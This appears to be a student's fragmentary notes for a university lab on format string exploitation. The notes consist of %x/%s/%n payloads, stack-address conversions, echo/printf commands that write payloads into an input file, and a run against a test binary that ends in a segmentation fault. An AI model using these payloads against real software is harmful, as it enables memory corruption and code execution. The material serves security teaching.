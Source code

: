 %x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%x



0x56556209


```
1448436233
```


```
1448435888
```



%x.%x.%x.%x.%x.%x.%x.%s.%x.%x

FIT5003 -> XITx003

| Number     | Hex      |
| ---------- | -------- |
| 1448435888 | 565560B0 |
| 1448435892 | 565560B4 |
| 1448435896 | 565560B8 |
| 1448435900 | 565560BC |
| 1448435904 | 565560C0 |
| 1448435908 | 565560C4 |
| 1448435912 | 565560C8 |


echo $(printf "\xb0\xa5\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%n > input



AAAAAAAAAAAAAAAAAAAA 1448435888 %x.%x.%x.%x.%x.%x.%x.%x.%s.%x

AAAAAAAAAAAAAAAAAAAA 1448436217 %x.%x.%x.%x.%x.%x.%x.%x.%s.%x



printf "\xb0\xa5\x55\x56".%x.%x.%x.%x.%x.%x.%x.%x.%s.%x


echo -ne "AAAAAAAAAAAAa\xb0\x60\x55\x56.%x.%x.%x.%x.%9\$s" > input



davi@davi:~/Documents/Assignment/A1-Code$ echo -ne "\xb0\x60\x55\x56%61x%8\$n" > input
davi@davi:~/Documents/Assignment/A1-Code$ ./format_string < input
Please enter a string:
Segmentation fault (core dumped)


	gcc -m32 -g -o stack_v2 -z execstack stack.c
echo -ne "\xb0\x60\x55\x56%61x%5\$n


